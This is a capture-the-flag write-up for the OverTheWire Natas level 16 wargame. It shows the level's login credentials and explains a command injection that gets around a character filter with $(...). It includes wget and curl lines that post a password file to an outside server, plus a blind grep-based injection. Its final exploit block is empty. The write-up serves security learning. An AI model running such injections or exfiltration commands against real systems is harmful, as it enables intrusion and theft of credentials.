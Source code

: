 # Level 16

URL : http://natas16.natas.labs.overthewire.org/

## creds for level 16

natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh


## Solution

I struggled with this challenge all damn night, and here i am at 6am doing a writeup.

This challenge is a the same as previous Command Injection challenges, but this time they have filtered a lot of characters.

>  For security reasons, we now filter even more on certain characters.

chars filtered are:  **; | & ` ' "**

the thing I noticed from the very beggining was the characters **$** **(** and **)** are not filtered!!!.

so we can execute command this way :

```bash
$(cat /etc/natas_webpass/natas17)
```
So, the only logical solution that i could think of was to send the file to my remote server using a post request.
`curl` and `wget` have the ability to do that 

here what i tried to do :  

1. using wget

```bash
$(wget --post-file /etc/natas_webpass/natas17 http://myserver.me/script.php) 
```

2. using curl
```bash
$(curl -F file=@/etc/natas_webpass/natas17 http://myserver.me/script.php)
```

none of these worked!!!!!, I guess it's either `wget` and `curl` are not installed on the server, or they have restricted remote access for security reasons.!

## Solution is a blind command injection

If you send the string `omega` as the needle parameter value, you will get two results in the output, `omega` and `omega's`.  

now if you set the needle parameter to : **omega$(grep ^o /etc/natas_webpass/natas17)**, you will also get the string `omega` in the output!!!!
So i wrote a small python script to test this with all characters.

![python_test](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554351612/Screenshot_2019-04-04_06-19-35.png)

all characters (letters and digits) returned the same output except for the character 8, so let's suppose that the password starts with an 8.


## Final exploit code 

This exploit does take some time, if you have low bandwidth you can run the script on [repl.it](https://repl.it/)

```python

```





















